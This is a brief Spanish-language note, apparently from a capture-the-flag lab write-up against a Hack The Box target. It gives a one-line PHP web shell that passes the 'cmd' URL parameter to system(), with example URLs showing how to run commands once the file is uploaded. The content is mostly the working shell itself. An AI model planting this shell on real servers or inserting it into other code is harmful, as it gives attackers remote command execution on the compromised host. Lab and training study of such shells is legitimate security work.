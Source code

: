 
Este archivo lo que va a hacer es que cuando lo subamos en una pagina, pongamos cmd=comando y ejecute el comando que le pasemos


https://Paginaweb/nombredelarchivo.php?cmd=Comando
Ejemplo: https://thetoppers.htb/exploit.php?cmd=id
```php
<?php system($_GET["cmd"]); ?>
```
